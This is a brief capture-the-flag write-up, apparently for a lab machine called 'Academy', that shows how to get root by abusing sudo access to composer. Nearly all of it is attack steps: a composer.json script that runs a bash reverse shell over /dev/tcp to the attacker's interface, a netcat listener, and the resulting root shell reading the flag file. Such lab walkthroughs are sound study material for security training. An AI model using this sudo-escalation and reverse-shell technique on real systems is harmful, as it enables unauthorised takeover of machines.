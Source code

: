 # Root Exploit

**First**, create `composer.json` file
```
{
    "scripts": {
        "hack": [
            "bash shell.sh"
        ]
    }
}
```

**Second**, create `shell.sh` script
```
bash -i >& /dev/tcp/tun0/4242 0>&1
```

**Third**, open nc port
```
nc -nvlp 4242
```

**Fourth**, run composer 
```
mrb3n@academy:~$ sudo composer hack
```

*shell pops in netcat immediately*

```
root@academy:~# cat root.txt
cat root.txt
29a4ab3f************************
```

